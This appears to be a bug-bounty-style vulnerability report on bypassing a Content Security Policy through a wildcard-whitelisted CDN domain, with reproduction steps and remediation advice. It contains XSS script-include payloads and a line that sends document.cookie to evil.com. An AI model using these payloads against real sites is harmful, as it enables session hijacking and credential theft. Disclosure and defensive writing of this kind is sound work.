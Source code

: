 # 🐞 CSP Bypass Vulnerability Report

---

## 📌 Title

**Content Security Policy (CSP) Bypass via lenient directives and whitelisted domains**

---

## 📝 Description

The target application implements a CSP (Content Security Policy) header to mitigate Cross-Site Scripting (XSS) and data injection attacks. However, due to **misconfigurations** or **whitelisted domains** that serve attacker-controlled content, it is possible to **bypass the CSP** and execute arbitrary JavaScript.

This effectively defeats the intended protections of CSP, opening the application to script injection, session theft, or credential harvesting.

---

## 🎯 Affected Endpoint

- **URL**: `https://vulnerable-website.com/`
- **Method**: `GET`
- **Headers**:
  
```http
Content-Security-Policy: script-src 'self' *.trustedcdn.com;
```

---

## 💣 Exploit Scenario

1. `*.trustedcdn.com` allows an attacker to host their own malicious JS (e.g., `attacker.trustedcdn.com`).
2. Attacker uploads or hosts a payload on:

```
https://attacker.trustedcdn.com/payload.js
```

3. Inject the following script into a vulnerable input field:

```html
<script src="https://attacker.trustedcdn.com/payload.js"></script>
```

4. The page loads and executes the malicious JS despite CSP.

---

## 🔥 Example Payloads

### 📥 Reflected Script Include

```html
<script src="https://attacker.trustedcdn.com/xss.js"></script>
```

### 📤 Data Exfiltration Example (payload.js)

```javascript
fetch('https://evil.com/steal?cookie=' + document.cookie);
```

---

## 🧪 Steps to Reproduce

1. Find an input on the target site that reflects unsanitized HTML (e.g., a search field or 404 page).
2. Inject the following input:

```html
<script src="https://attacker.trustedcdn.com/xss.js"></script>
```

3. Observe JavaScript executing even with a CSP header present.
4. Confirm that document data is exfiltrated (e.g., cookies or local storage).

---

## ⚠️ Why This Works

- Wildcard trust (`*.trustedcdn.com`) allows subdomain control.
- Attacker leverages a whitelisted domain to load their own JavaScript.
- CSP does not prevent `src`-based script execution if domain is allowed.

---

## 🎯 Impact

- Complete CSP bypass
- Enables stored/reflected XSS even with CSP
- Potential for session hijacking
- Credential harvesting
- User redirection and phishing

---

## ⚙️ Affected CSP Configuration

```http
Content-Security-Policy: script-src 'self' *.trustedcdn.com;
```

- `*.trustedcdn.com` is too permissive
- Attacker controlled subdomain hosted malicious JS
- Lack of integrity checks (e.g., `integrity` or nonce)

---

## 🛡️ Recommended Remediation

- Remove wildcard subdomains (`*.trustedcdn.com`)
- Avoid trusting any domain not 100% under your control
- Use **nonces** or **hashes** for inline script execution:

```http
Content-Security-Policy: script-src 'self' 'nonce-abc123';
```

- Implement Subresource Integrity (SRI):

```html
<script src="https://cdn.safe.com/lib.js" integrity="sha384-..." crossorigin="anonymous"></script>
```

- Validate CSP headers with tools like [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)

---

## 🧾 References

- [OWASP CSP Guide](https://owasp.org/www-project-cheat-sheets/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [PortSwigger CSP Bypass Techniques](https://portswigger.net/research/bypassing-csp-with-sandboxed-iframes)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Manual Testing, Burp Suite, Browser Console  
- **Severity**: High

---

> ⚠️ **Disclaimer**: This vulnerability was discovered and reported responsibly.    
